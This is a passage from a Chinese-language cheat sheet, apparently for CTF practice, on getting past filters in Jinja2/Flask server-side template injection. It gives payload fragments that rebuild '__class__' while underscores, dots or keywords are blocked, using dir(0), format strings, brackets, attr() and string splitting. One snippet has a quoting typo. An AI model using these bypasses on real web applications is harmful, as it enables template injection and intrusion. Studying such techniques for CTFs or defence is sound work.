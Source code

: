    通过自己设置变量class、x1、x2、x3来传递参数从而绕过。

2. 同request.args，request.values也有类似的作用，不过要利用post的方式进行传参。

3. 在`dir()`没有被ban下可以用`dir(0)[0][0]`来引入'_'.

   例： 

   ```python
   ''[dir(0)[0][0]+dir(0)[0][0]+'class'+dir(0)[0][0]+dir(0)[0][0]]
   #等价于''.__class__（PS：在url中'+'号最好要编码成%2b！！！）
   ```

   

4. 利用格式化字符串特性。用`'{0:c}'['format'](95)`或`"%c"%(95)`

   以`''.__class__`例:

   ```python
   {{''['{0:c}'['format'](95)+'{0:c}'['format'](95)+'class'+'{0:c}'['format'](95)+'{0:c}'['format'](95)]}} 
   
   ```

   

###### 3)过滤了'.'号

1. 用中括号来代替。

   例：

   ```python
   ''['__class__']等价于''.__class__
   ```

   

2. 用`__getattribute__`函数来代替

   ```python
''.__getattribute__('__class__')
   ```
   
   

3. 用`attr()`函数来代替

   例：

   ```python
   ''['__class'__]等价于''|attr('__class__')
   ```

   

###### 4)关键词字符过滤

1. 利用字符串特性将关键词拆绕过。

   例：

   ```python
   ''['__cl'+'ass__']等价于''.__class__
   #（PS：在url中'+'号最好要编码成%2b！！！）
   ''.__getattribute__('__cla'+'ss__')
   #（PS：在url中'+'号最好要编码成%2b！！！）
   ''['__class'__]等价于''|attr('__cla'+'ss__')
   ```
